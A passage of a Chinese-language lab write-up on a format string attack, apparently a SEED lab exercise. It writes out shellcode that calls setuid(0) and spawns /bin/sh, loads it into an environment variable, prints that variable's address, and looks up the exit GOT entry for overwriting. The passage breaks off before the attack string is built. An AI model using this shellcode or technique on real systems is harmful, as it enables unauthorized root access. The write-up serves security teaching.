 输出“done”意味着修改成功。

### Shellcode

 把 shellcode 放进环境变量 EGG，由于含有不可输出字符，所以使用 Python 送入环境变量，使用以下语句： 

```bash
export EGG=$(python -c "print '\x90'*1000 + '\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80'")
```

编写 att.c 文件

```c
#include <stdio.h>
#include <stdlib.h>
int main(void)
{
    printf("EGG address: %p ", getenv("EGG"));
}
```

并在 seed 用户下编译，运行，用以输出环境变量的地址。保存为att.c文件，并编译为att文件，是为了和got文件名长度相同，也必须相同，否则地址会有偏差。

```bash
gcc att.c -o att
./att
```

![image-20220321111748240](FormatStringShellcode/image-20220321111748240.png)

### 构建攻击字符串

先找到 exit 地址

```bash
objdump -R got
```

 ![image-20220321112017409](FormatStringShellcode/image-20220321112017409.png)
